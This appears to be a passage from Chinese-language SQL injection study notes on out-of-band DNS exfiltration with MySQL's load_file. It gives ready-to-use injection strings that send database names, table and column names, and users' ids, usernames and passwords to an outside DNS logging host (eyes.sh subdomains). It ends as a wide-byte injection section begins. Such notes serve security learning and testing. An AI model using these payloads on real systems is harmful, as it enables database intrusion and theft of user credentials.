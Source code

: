 - HTTP数据外带

- ```cmd
  //以DNS数据外带为例
  
  load_file(concat('\\\\',查询内容,'.网址\\abc')
  or
  load_file(concat('//',查询内容,'.网址/abc') # /abc指定外部路径
  ```

- ```sql
  //实例
  
  1.获取数据库名
  select * from users where id=1 and load_file(concat('\\\\',(select
  database()),'.54uekpz5.eyes.sh\\abc'));
  2.获取表名
  select * from users where id=1 and load_file(concat('\\\\',(select
  group_concat(table_name separator '_') from information_schema.tables where
  table_schema=database()),'.Laffrex.eyes.sh\\abc'));
  3.获取字段名
  select * from users where id=1 and load_file(concat('//',(select
  group_concat(column_name separator '_') from information_schema.columns where
  table_schema=database() and table_name='users'),'.Laffrex.eyes.sh/abc'));
  4.获取字段数据
  select * from users where id>0 and load_file(concat('//',(select
  group_concat(concat_ws('_',id,username,password) separator '__') from
  information_schema.columns where table_schema=database() and
  table_name='users'),'.Laffrex.eyes.sh/abc'));
  ```

- 基本步骤

- ```sql
  ①获取数据库名
  1' and load_file(concat('\\\\',(select database()),'.Laffrex.eyes.sh\\abc')) --+
  
  ②获取表名
  1' and load_file(concat('\\\\',(select group_concat(table_name separator '_')
  from information_schema.tables where
  table_schema=database()),'.Laffrex.eyes.sh\\abc')) --+
  
  ③获取字段名
  1' and load_file(concat('//',(select group_concat(column_name separator '_') from
  information_schema.columns where table_schema=database() and
  table_name='users'),'.Laffrex.eyes.sh/abc')) --+
  
  ④获取字段数据
  
  //获取id
  1' AND load_file(CONCAT('\\\\',(SELECT group_concat(id separator '__') FROM
  users),'.Laffrex.eyes.sh/abc')) --+
  //获取username
  1' AND load_file(CONCAT('\\\\',(SELECT SUBSTRING(group_concat(username separator
  '__'), 1, 60) FROM
  users),'.Laffrex.eyes.sh/abc1')) --+ //本次字符最大长度为63
  1' AND load_file(CONCAT('\\\\',(SELECT SUBSTRING(group_concat(username separator
  '__'), 61, 120) FROM users),'.Laffrex.eyes.sh/abc1')) --+
  1' AND load_file(CONCAT('\\\\',(SELECT
  substring(group_concat(concat_ws('_',id,username,password) separator '__'),1,45)
  FROM users),'.Laffrex.eyes.sh/abc')) --+ //本次字符最大长度45
  ```

### 宽字节注入

- 概念:宽字节是指`2个字节宽度`的编码技术

- 原因:set character_set_client="gbk"
  ```